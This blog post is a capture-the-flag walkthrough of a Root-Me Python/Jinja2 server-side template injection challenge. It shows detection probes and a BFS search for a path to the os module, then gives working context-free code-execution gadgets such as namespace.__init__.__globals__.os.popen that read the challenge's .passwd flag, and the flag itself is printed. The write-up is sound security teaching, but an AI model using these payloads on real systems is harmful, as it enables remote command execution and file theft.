 +++ 
title = "From Detection to Flag: Python Jinja2 SSTI on Root-Me"
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution."
date = "2025-09-11"
draft = false
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough']
+++

I recently tackled a fun Server-side Template Injection (SSTI) challenge on Root-Me and wanted to document my process. This post follows my journey from initial detection to crafting a reliable, context-free payload to gain code execution.

## The Challenge: Python SSTI Introduction

The goal was to solve the "Python - Server-side Template Injection Introduction" challenge on [Root-me.org](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction?lang=en).

### << SETUP >>

I started by loading the challenge environment and intercepting the requests using Caido. The application allows you to preview content submitted through a form.

### << DETECT >>

The core of the application is a POST request to `/preview` with `title` and `content` parameters.

```http
POST /preview HTTP/1.1
Host: challenge01.root-me.org:59074
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

title=hi&content=hi&button=yes
```

To test for SSTI, I sent a simple mathematical expression, `{{7*7}}`, in both the `title` and `content` fields. The server's response was revealing:

```json
{
    "content": "49",
    "title": "{{7*7}}"
}
```

The `content` field was processed, while the `title` field was not. This confirmed an SSTI vulnerability in the `content` parameter. To be certain about the template engine, I tried two different payloads:

1.  `{{3 * 3}}` resulted in `9`.
2.  `{{'3' * 3}}` resulted in `333`.

This behavior is characteristic of Jinja2, confirming my suspicion.

### << EXPLORE >>

With the vulnerability confirmed, the next step was to find a way to execute shell commands. My goal was to access the `os` module in Python.

#### The Problem with Context-Dependent Payloads

In previous challenges, like one from picoCTF, I had used "egg hunter" payloads that depend on the application's context. For example:

```python
{{ ''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode() }}
```

The problem with this method is that the index for `popen` (`[356]`) is not consistent across different environments. It's a brittle approach. I wanted to find a more reliable, context-independent payload.

#### The Quest for a Context-Free Payload

I drew inspiration from the GreHack 2021 talk by @podalirius_, "[Optimizing Server Side Template Injections payloads for jinja2](https://www.youtube.com/watch?v=ahBxZkOTdg0)", which discusses creating context-free payloads.

The ideal payload should be:
1.  **Context-free:** It shouldn't rely on any data passed into the `.render()` method.
2.  **Short:** Shorter is always better.

The key is the `self` object, which is a reference to the template itself and is accessible even with an empty `.render()` call.

```python
>>> jinja2.Template("""I am {{ self }}""").render()
'I am <TemplateReference None>'
```

From this `self` object, we should be able to find a path to the `os` module.

#### Finding the Path with BFS

Python's objects and attributes can be thought of as a graph. To find the shortest path from our starting object (`jinja2`) to our target (`os`), we can use a Breadth-First Search (BFS). This helps avoid long exploration traps and cycles.

During this exploration, I got a bit confused about the distinction between objects, attributes, and modules in Python. They all felt very similar. I got a great explanation:

> **You're right to feel they're similar—in Python, almost everything, including modules and functions, is fundamentally an object. The difference lies in their role and relationship to each other.**
> 
> **Object (obj):** The most basic building block. An instance of a class (e.g., an integer, a list, a function, a module).
> 
> **Attribute (attr):** A name that belongs to an object, accessed with the dot notation (`parent_object.attribute`). It can be a variable or a method.
> 
> **Module:** A specific type of object whose main job is to organize Python code, acting as a namespace for its attributes.

With that clarified, I wrote a small BFS script (`audit.py`) to search for paths from the `jinja2` object to the `os` module. It found several promising paths:

```bash
$ ./audit.py jinja2
Searching for 'os' from 'jinja2' (max depth: 5)...
jinja2.bccache.fnmatch.os
jinja2.bccache.os
jinja2.bccache.tempfile._os
jinja2.environment.os
jinja2.loaders.os
jinja2.utils.os
```

This confirmed that a path exists. Now, how to get there from `self`?

#### From `self` to `os`

First, I inspected the `self` object using `dir()`:

```python
>>> jinja2.Template("""{{ f(self) }}""").render(f=dir)
"['__class__', '__delattr__', ..., '_TemplateReference__context']"
```

Most attributes were internal dunder methods, but `_TemplateReference__context` looked interesting.

```python
>>> jinja2.Template("""{{ self._TemplateReference__context }}""").render()
"<Context {'range': ..., 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>} of None>"
```

This context object gives us access to several Jinja2 utility classes like `cycler`, `joiner`, and `namespace`. My BFS search showed that `jinja2.utils.os` was a valid path. Since `namespace` is in `jinja2.utils`, I could traverse from there to the `os` module using Python's object introspection capabilities (`__init__.__globals__`).

This gives us a reliable path to `os`:

```python
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

Even better, since `namespace`, `cycler`, and `joiner` are available in the global context of the template, we can access them directly without referencing `self`. This leads to a much cleaner and shorter payload.

#### The Final Gadgets

This discovery yielded three reliable, context-free gadgets for Jinja2 SSTI:

```python
{{ namespace.__init__.__globals__.os.popen("id").read() }}
{{ cycler.__init__.__globals__.os.popen("id").read() }}
{{ joiner.__init__.__globals__.os.popen("id").read() }}
```

### << EXPLOIT >>

Now it was time to use these gadgets on the challenge server. I sent the payload in the `content` parameter:

```
content={{ namespace.__init__.__globals__.os.popen("ls -la").read() }}
```

The server responded with a directory listing, and I spotted a `.passwd` file.

#### A Failed Experiment: `popen` vs. `Popen`

To get a nicely formatted output, I first tried to use the `communicate()` method, which I had used in the past:

```python
{{ namespace.__init__.__globals__.os.popen('id', shell=True, stdout=-1).communicate()[0].decode() }}
```

This resulted in an error: `TypeError: popen() got an unexpected keyword argument 'shell'`.

This was a key learning moment. I realized I was confusing `os.popen()` with the more powerful `subprocess.Popen`. The `os.popen` function is simpler and doesn't accept those arguments. The payload I used in the picoCTF challenge was accessing `subprocess.Popen`, not `os.popen`.

#### Getting the Flag

To solve the formatting issue and read the file, I switched to `readlines()`, which returns the output as a list of strings, preserving newlines.

**Final Payload:**

```
content={{ namespace.__init__.__globals__.os.popen('cat .passwd').readlines() }}
```

**Response:**

```json
{
    "content": "['Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!\n']",
    "title": "hi"
}
```

Success! I found the flag.

## Final Thoughts

This challenge was a great exercise in moving beyond simple, context-dependent SSTI payloads. The journey was just as important as the result. By hitting a wall with `os.popen`, taking the time to understand the object graph with BFS, and clarifying fundamental Python concepts, I was able to build a short, reliable, and context-free gadget for code execution. It highlights the importance of deep-diving into the framework you're targeting and not being afraid to go back to the basics.

---

## Related Posts

*   [My First SSTI Adventure: A PicoCTF Walkthrough](/post/picoctf-ssti-journey/)
*   [Deepening My SSTI Knowledge: Java SSTI on Root-Me](/post/ssti-study-and-rootme-challenge/)

